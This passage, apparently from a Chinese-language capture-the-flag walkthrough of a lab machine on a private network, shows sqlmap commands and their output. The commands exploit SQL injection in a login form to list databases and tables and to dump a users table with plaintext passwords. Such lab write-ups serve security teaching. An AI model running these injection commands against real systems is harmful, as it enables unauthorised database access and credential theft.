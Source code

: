 可以看到存在**SQL注入漏洞**

查看数据库

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/littlesecrets/login.php" --data "username=123&password=123" -p username --level 5 --dbs                                                                                   

available databases [4]:
[*] information_schema
[*] mysql
[*] news_db
[*] performance_schema
```

查看表

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/littlesecrets/login.php" --data "username=123&password=123" -p username --level 5 -D news_db --tables 

Database: news_db
[2 tables]
+-------+
| news  |
| users |
+-------+
```

获取到用户

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/littlesecrets/login.php" --data "username=123&password=123" -p username --level 5 -D news_db -T users --dump

Database: news_db
Table: users
[2 entries]
+----+-----------+----------+
| id | password  | username |
+----+-----------+----------+
| 1  | password1 | user1    |
| 2  | password2 | user2    |
+----+-----------+----------+
```

但是无法直接登录

![](./images/image-194.png)
